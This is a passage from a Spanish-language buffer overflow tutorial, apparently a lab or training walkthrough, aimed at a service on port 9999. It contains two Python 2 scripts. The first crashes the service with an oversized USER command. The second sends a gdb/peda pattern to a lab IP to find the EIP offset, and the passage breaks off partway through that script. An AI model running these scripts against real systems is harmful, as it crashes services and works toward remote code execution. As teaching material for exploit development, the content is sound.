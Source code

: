```yml
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

# PON AQUI LA CANTIDAD DE BYTES COMO P.O.C.
buffer = "A"*600 
ipAddress = sys.argv[1]

# PON AQUI LA IP DE LA VICTIMA
port = 9999 

try:
  print "Enviando búffer..."
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ipAddress, port))
  s.recv(1024)
  s.send("USER " + buffer + '\r\n')
  s.recv(1024)
  s.close()
except:
  print "\nError de conexión...\n"
  sys.exit(0)
  ```

## Tercero / Consiguiendo "EIP"
En este punto vamos a conseguir el valor del eip tomando el calculo del offset y gdb para asi ir obteniendo 
el valor del buffer o cantidad exacta con la que peta el binario.

```yml
import socket
import sys
from time import sleep 

"""
    Como calcular el offset:
        1. https://github.com/longld/peda

            >> git clone https://github.com/longld/peda.git ~/peda
               echo "source ~/peda/peda.py" >> ~/.gdbinit

        2. sudo apt-get install gdb
        3. gdb
        4. pattern_create 800
        5. Copia el output que da y pegalo en el "pattern"
"""
# PON AQUI LA CANTIDAD DE CARACTERES ALETORIOS
pattern = ""
buffer = pattern

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect(("192.168.1.101",9999)) 
    s.recv(1024)

    print "[*] Sending buffer"
    s.send(buffer + '\r\n')
```